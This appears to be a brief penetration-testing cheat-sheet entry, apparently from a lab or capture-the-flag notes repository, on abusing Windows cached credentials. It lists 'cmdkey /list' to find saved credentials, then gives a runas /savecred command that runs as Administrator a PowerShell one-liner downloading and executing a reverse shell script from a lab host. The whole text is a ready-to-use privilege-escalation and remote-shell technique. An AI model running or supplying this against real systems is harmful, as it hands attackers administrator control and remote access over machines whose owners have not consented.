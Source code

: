 ## Runas command
- run `cmdkey /list` to find which users creds are cached.
- If admin cached, can use runsas just like sudo - just host a server, set a listener and boom: 
```
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.11/reverse_shell.ps1')"
```
